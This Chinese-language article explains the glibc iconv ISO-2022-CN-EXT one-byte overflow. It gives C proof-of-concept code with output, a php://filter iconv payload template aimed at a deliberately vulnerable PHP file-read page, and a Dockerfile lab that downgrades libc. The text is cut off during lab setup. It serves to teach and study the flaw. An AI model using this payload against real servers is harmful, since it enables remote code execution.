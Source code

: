 编译上面的代码运行：  
```
$ gcc poc.c -o poc$ ./poc./pocRemaining bytes (should be > 0): -1000000: 41 41 41 41 41 1b 24 2a 48 00 00 00 00 00 00 00  AAAAA.$*H.......
```  
  
我们使用python来看看PoC的特殊字符：  
```
BUG = "劄".encode()print(BUG)# b'\xe5\x8a\x84'
```  
  
从上面的结果可以看出，这个特殊字符只占3字节，但是却会被转译为\x1b$*H  
四字节，产生了一字节的溢出，上面的PoC似乎还是不太好展示出该漏洞的影响情况，我们可以简单的改改代码，如下所示：  
```
void main(){    iconv_t cd = iconv_open("ISO-2022-CN-EXT", "UTF-8");    char input[0x3] = "劄";    char output[0x3] = {0};    char overflow[0x5] = "AAAA";    char *pinput = input;    char *poutput = output;    // Same size for input and output buffer    size_t sinput = 3;    size_t soutput = 3;    size_t status = iconv(cd, &pinput, &sinput, &poutput, &soutput);    printf("Remaining bytes (should be > 0): %zd\nstatus = %d\n", soutput, status);    hexdump(output, 0x10);    printf("overflow = %s\n", overflow);}# 查看运行结果$ gcc poc.c -o poc$ ./pocRemaining bytes (should be > 0): -1status = -1000000: 1b 24 2a 48 41 41 41 00 00 13 9e 1c e1 6c 44 86  .$*HAAA......lD.overflow = HAAA
```  
  
从上面的结果可以看出，我们成功的溢出了1字节到overflow  
变量中。  
  
**2 PHP任意文件读到RCE**  
  
  
参考资料  
  
在了解完iconv漏洞原理之后，接下来再看看该漏洞的实际利用场景。目前已公开的漏洞利用场景只有一个，就是把PHP的任意文件读取漏洞转换为远程命令指令漏洞。  
  
我们首先来看看以下PHP代码：  
```
<?php$data = file_get_contents($_POST['file']);echo "File contents: $data";?>
```  
  
CTF的web手应该都知道，我们可以构造PoC：php://filter/read=convert.iconv.UTF-8.ISO-2022-CN-EXT/resource=data:text/plain;base64,xxxxxxx  
。  
  
这样我们就可以调用iconv_open("ISO-2022-CN-EXT", "UTF-8");  
，接着控制iconv  
函数的输入buffer，达到触发iconv漏洞的目的。  
  
**2.1**  
  
环境搭建  
  
首先我们需要搭建一个测试环境，Dockerfile如下所示：  
```
$ cat DockerfileFROM ubuntu:22.04RUN sed -i 's@//.*archive.ubuntu.com@//mirrors.ustc.edu.cn@g' /etc/apt/sources.listRUN sed -i 's/security.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.listRUN apt update && apt install -y nginx php-fpm# libc降级到有漏洞的版本RUN apt install -y libc6-dev=2.35-0ubuntu3 libc-dev-bin=2.35-0ubuntu3 libc6=2.35-0ubuntu3COPY index.php /var/www/html/index.phpCOPY nginx.conf /etc/nginx/sites-enabled/defaultCOPY start.sh /start.shRUN chmod +x /start.shCMD ["start.sh"]$ cat index.php<?php$data = file_get_contents($_POST['file']);echo "File contents: $data";?>$ cat nginx.confserver {    listen 80 default_server;    listen [::]:80 default_server;    root /var/www/html;    index index.php;    server_name _;    location / {        try_files $uri $uri/ /index.php?$query_string;    }    location ~ \.php$ {            fastcgi_split_path_info ^(.+\.php)(/.+)$;            fastcgi_pass unix:/var/run/php/php8.1-fpm.sock;            fastcgi_index index.php;            include fastcgi_params;            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;            fastcgi_param PATH_INFO $fastcgi_path_info;        }}$ cat start.sh#!/bin/bash/etc/init.d/php8.1-fpm startnginx -g 'daemon off;'
```  
  